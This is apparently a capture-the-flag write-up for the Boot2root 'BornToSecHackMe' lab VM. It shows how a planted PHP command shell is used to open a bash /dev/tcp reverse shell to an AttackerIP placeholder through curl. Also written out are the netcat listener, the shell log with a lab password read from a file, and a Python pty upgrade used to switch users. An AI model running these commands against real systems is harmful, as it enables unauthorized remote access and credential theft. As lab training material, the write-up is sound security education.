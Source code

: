 # Reverse shell

Because we have written php code in the file `/var/www/forum/templates_c/cmd.php` to execute any strings in the `cmd` parameter.  
We can obtain shell without using ssh method.  

## How to create a reverse shell

We must use our `attacker machine` to listen on one `port`.

```bash
nc -lvp PORT
```

Then the reverse shell command must be sent. In this example we have used `curl`:

```bash
curl --insecure --get https://Boot2rootIP/forum/templates_c/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/AttackerIP/Port 0>&1'"
```

We have our reverse shell and we can explore the machine.

```bash
$nc -lvp 4444
listening on [any] 4444 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.113] from (UNKNOWN) [192.168.56.101] 59423
bash: no job control in this shell
www-data@BornToSecHackMe:/var/www/forum/templates_c$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@BornToSecHackMe:/home$ cat /home/LOOKATME/password
cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

Now we have a shell access we can try to login with `lmezard`. We have a problem and to solve it we must to execute a shell using `TTY` mode (to create an `interactive shell`):

```bash
www-data@BornToSecHackMe:/var/www/forum/templates_c$ su lmezard
su lmezard
su: must be run from a terminal
www-data@BornToSecHackMe:/var/www/forum/templates_c$ python -c 'import pty; pty.spawn("/bin/bash")'
<ar/www/forum/templates_c$ python -c 'import pty; pty.spawn("/bin/bash")'    
www-data@BornToSecHackMe:/var/www/forum/templates_c$ su laurie
su laurie
Password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```
